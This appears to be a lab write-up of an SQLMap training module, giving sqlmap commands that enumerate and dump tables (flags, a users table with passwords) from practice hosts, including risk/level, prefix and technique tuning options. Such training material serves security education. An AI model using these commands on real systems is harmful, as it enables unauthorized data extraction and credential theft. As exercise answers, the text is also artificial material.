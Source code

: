 # SQLMap Essentials

{% file src="../.gitbook/assets/Sqlmap_Essentials_Module_Cheat_Sheet.pdf" %}

## Getting Started

### SQLMap Overview

#### Preguntas

**What's the fastest SQLi type?**

UNION query-based

## Building Attacks

### Running SQLMap on an HTTP Request

#### Preguntas

**What's the contents of table flag2? (Case #2)**

Vemos cómo se llaman las bases de datos.

```
sqlmap -u 'http://94.237.57.211:53268/case2.php' --data 'id=1*' --method POST -H 'Content-Type: application/x-www-form-urlencoded' --dbs
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Sabiendo como se llama realizamos lo siguiente para ver lo que contiene en dicha tabla.

```
 sqlmap -u 'http://94.237.57.211:53268/case2.php' \
  --data 'id=1*' --method POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -D testdb -T flag2 --dump
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag3? (Case #3)**

```
sqlmap -u "http://94.237.57.211:53268/case3.php" --cookie 'id=1*' -T flag3 --dump
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag4? (Case #4)

```
sqlmap -u 'http://94.237.57.211:53268/case4.php' -H 'Content-Type: application/json' --data '{"id":1}' -T flag4 --dump --method POST
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### Attack Tuning

#### Preguntas

**What's the contents of table flag5? (Case #5)**

```
sqlmap -u 'http://94.237.50.221:57391/case5.php?id=1' -T flag5 --no-cast --dump --batch --risk 3 --level 5
```

<figure><img src="../.gitbook/assets/image (1709).png" alt=""><figcaption></figcaption></figure>



**What's the contents of table flag6? (Case #6)**

```
sqlmap -u 'http://94.237.50.221:57391/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'
```

<figure><img src="../.gitbook/assets/image (1710).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag7? (Case #7)**

```
sqlmap -u 'http://94.237.50.221:57391/case7.php?id=1' --union-cols 5-8 --level=3 --risk=3 --dump -T flag7 --techniqu
e=U -D testdb
```

<figure><img src="../.gitbook/assets/image (1711).png" alt=""><figcaption></figcaption></figure>

## **Database Enumeration**

#### Preguntas

**What's the contents of table flag1 in the testdb database? (Case #1)**

```
sqlmap -u 'http://83.136.254.55:50741/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Advanced Database Enumeration

**What's the name of the column containing "style" in it's name? (Case #1)**

```
sqlmap -u 'http://83.136.254.55:50741/case1.php?id=1' --batch --search -C "style"
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**What's the Kimberly user's password? (Case #1)**

```
 sqlmap -u 'http://83.136.254.55:50741/case1.php?id=1' --dump --batch --columns -C name,password -T users
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

